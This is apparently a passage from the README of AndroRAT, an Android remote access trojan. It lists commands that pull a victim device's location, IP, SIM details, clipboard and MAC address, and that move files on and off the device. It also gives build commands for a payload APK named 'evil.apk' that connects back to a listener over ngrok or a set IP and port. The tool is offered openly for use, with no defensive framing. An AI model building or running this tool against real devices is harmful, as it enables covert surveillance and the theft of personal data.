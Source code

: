 ```
    getLocation                --> return the current location of the device
    getIP                      --> returns the ip of the device
    getSimDetails              --> returns the details of all sim of the device
    clear                      --> clears the screen
    getClipData                --> return the current saved text from the clipboard
    getMACAddress              --> returns the mac address of the device
    exit                       --> exit the interpreter
```
In the sh shell there are some sub commands
```
    get [full_file_path]        --> donwloads the file to the local machine (file size upto 15mb)
    put [filename]              --> uploads the file to the android device
```

## Examples

* To build the apk using ngrok which will also set the listner:
```python3 androRAT.py --build --ngrok -o evil.apk```

* To build the apk using desired ip and port:
```python3 androRAT.py --build -i 192.169.x.x -p 8000 -o evil.apk```

* To get the interpreter:
```python3 androRAT.py --shell -i 0.0.0.0 -p 8000```

## Interpreter Examples
* Generating APK
<p align="center">
  <img src="Screenshots/6.JPG" width="800"/>
</p>
------------------------------------------------------------------------------------------------------------------------------  

* Some interpreter Commands 
<p align="center">
  <img src="Screenshots/1.JPG" width="800"/>
</p>
------------------------------------------------------------------------------------------------------------------------------

## Supporters:
[![rayep](https://avatars.githubusercontent.com/u/40718616?v=4&s=60)](https://github.com/rayep)

## TODO
* ~~Ngrok support~~
* Set up multi client
* Add screenshot command


## License
AndroRAT is licensed under MIT license take a look at the [LICENSE](LICENSE) for more information.


